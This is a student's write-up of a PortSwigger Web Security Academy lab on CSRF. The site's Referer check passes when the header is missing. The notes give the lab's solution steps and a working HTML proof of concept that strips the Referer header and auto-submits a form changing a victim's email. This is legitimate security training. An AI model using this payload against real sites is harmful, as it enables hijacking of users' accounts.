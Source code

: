 Analysis:
![[Pasted image 20240925152141.png]]

## **10. CSRF where Referer validation depends on header being present**
This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
3. Delete the Referer header entirely and observe that the request is now accepted.
4. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab. Include the following HTML to suppress the Referer header:
    `<meta name="referrer" content="no-referrer">`
    
5. Change the email address in your exploit so that it doesn't match your own.
6. Store the exploit, then click "Deliver to victim" to solve the lab.


In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: no csrf token

Testing Referer header for CSRF attacks:
1. Remove the Referer header

- we generate and deliver the basic CSRF payload and we see that the website responds with "Invalid referer header" (it makes sure that the request is coming from the same domain as the website - if it is coming from anywhere else the request is rejected)
![[Pasted image 20240925152932.png]]
	![[Pasted image 20240925153036.png]]

- we can see that our referer is http://burpsuite/ that is completely different from our domain
![[Pasted image 20240925153207.png]]

- we can spoof the referer header or to remove it and if the request is accepted without it we are ready to go; 

- Payload:
```
<html>
    <head>
        <meta name="referrer" content="never">        REMOVING THE REFERRER HEADER
    </head>

    <!--NOTE: Since the Web Security Academy intoduced a defense in that does not allow iframes from different origins, the iframe needs to be removed.-->
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```
